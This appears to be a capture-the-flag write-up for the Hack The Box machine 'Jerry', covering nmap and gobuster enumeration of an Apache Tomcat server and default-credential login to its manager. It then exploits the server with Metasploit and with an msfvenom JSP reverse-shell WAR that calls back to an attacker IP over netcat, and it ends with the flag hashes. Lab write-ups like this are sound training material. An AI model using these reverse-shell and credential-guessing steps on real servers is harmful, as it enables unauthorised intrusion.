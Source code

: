 # Jerry

## Information Gathering
10.10.10.95<br>
Apache Tomcat/7.0.88

## Enumeration
Scanning with nmap
> nmap -sC -sV -oN nmap/jerry.nmap -Pn 10.10.10.95
```bash
# Nmap 7.92 scan initiated Wed Dec 29 16:09:44 2021 as: nmap -sC -sV -oN nmap/jerry.nmap -Pn 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.029s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 16:09:58 2021 -- 1 IP address (1 host up) scanned in 14.74 seconds
```
I also began directory busting the web application while I look for attack vectors with Apache Tomcat/Coyote webserver
> gobuster dir -u http://10.10.10.95 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x html,php,txt -o gob/jerry.gob
```bash
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 0]
/http%3A%2F%2Fwww.html (Status: 400) [Size: 0]
/http%3A%2F%2Fwww.php (Status: 400) [Size: 0]
/http%3A%2F%2Fwww.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube.php (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube.html (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs.html (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs.php (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fblog.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fblog    (Status: 400) [Size: 0]
/http%3A%2F%2Fblog.html (Status: 400) [Size: 0]
/http%3A%2F%2Fblog.php (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww.php (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww.txt (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww.html (Status: 400) [Size: 0]
/RELEASE-NOTES.txt    (Status: 200) [Size: 9600]
/External%5CX-News.php (Status: 400) [Size: 0]
/External%5CX-News.txt (Status: 400) [Size: 0]
/External%5CX-News    (Status: 400) [Size: 0]
/External%5CX-News.html (Status: 400) [Size: 0]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 0]
/http%3A%2F%2Fcommunity.html (Status: 400) [Size: 0]
/http%3A%2F%2Fcommunity.php (Status: 400) [Size: 0]
/http%3A%2F%2Fcommunity.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fradar   (Status: 400) [Size: 0]
/http%3A%2F%2Fradar.html (Status: 400) [Size: 0]
/http%3A%2F%2Fradar.php (Status: 400) [Size: 0]
/http%3A%2F%2Fradar.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 0]
/http%3A%2F%2Fjeremiahgrossman.html (Status: 400) [Size: 0]
/http%3A%2F%2Fjeremiahgrossman.php (Status: 400) [Size: 0]
/http%3A%2F%2Fjeremiahgrossman.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fweblog.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 0]
/http%3A%2F%2Fweblog.html (Status: 400) [Size: 0]
/http%3A%2F%2Fweblog.php (Status: 400) [Size: 0]
/http%3A%2F%2Fswik    (Status: 400) [Size: 0]
/http%3A%2F%2Fswik.html (Status: 400) [Size: 0]
/http%3A%2F%2Fswik.php (Status: 400) [Size: 0]
/http%3A%2F%2Fswik.txt (Status: 400) [Size: 0]
```
## Exploitation

Doing some research for a Tomcat CVE I stumbled upon an arbitrary upload. But first I needed to determine the credentials for the /manager/ directory. I found a default credentials list <a href="https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown">here</a>. After guessing a bunch the credentials were <b>tomcat:s3cret</b>. I want to do this exploit in two ways: Automatically using <a href="https://www.metasploit.com/">Metasploit</a> and manually. Below is the automatic steps:
```bash
msfconsole
msf6 > search tomcat_mgr_upload
msf6 > set httppassword s3cret
msf6 > set httpusername tomcat
msf6 > set rhosts 10.10.10.95
msf6 > set rport 8080
msf6 > exploit
```
Which gives a Meterpreter shell.<br>

Doing the manual way suprisingly doesn't require much more intuition. Using <a href="https://www.offensive-security.com/metasploit-unleashed/msfvenom/">msfvenom</a> we can generate a payload to upload to /manager/html. Once the payload is generated, navigating to /shell/ while having a netcat listener gives a shell.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.122 LPORT=1337 -f war > shell.war
nc -lnvp 1337
```

## Privilege Escalation

I can navigate directly to C:\Users\Administrator\Desktop\flags and cat "2 for the price of one.txt" which gives both user and root flag. I need to do more studying on Windows privilege escalation anyways...

user.txt : 7004dbcef0f854e0fb401875f26ebd00<br>
root.txt : 04a8b36e1545a455393d067e772fe90e
